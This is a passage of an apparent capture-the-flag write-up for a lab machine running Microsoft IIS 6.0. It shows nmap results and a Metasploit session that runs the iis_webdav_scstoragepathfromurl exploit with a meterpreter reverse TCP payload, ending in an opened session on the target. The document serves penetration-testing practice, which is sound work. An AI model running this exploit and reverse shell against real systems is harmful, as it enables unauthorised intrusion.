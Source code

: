 ```none
|   WebDAV type: Unknown
|   Server Date: Thu, 03 Sep 2020 16:24:53 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Type: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Vulnerability Discovery

As seen in the nmap scan above, `Microsoft IIS httpd 6.0` is extremely outdated, so I went ahead and googled for some known exploits against it.
It turns out that [some research](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl) showed that the vulnerability disclosure date was shortly after this box was released.

The link above also let me know that there was a metasploit exploit module, so I figured I would give it a shot. 

## Exploitation

```none
msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > show options

Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute force
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS         10.10.10.14      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.24      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows Server 2003 R2 SP2 x86


msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > exploit

[*] Started reverse TCP handler on 10.10.14.24:4444
[*] Trying path length 3 to 60 ...
[*] Sending stage (176195 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.14.24:4444 -> 10.10.10.14:1030) at 2020-09-03 13:05:12 -0400
```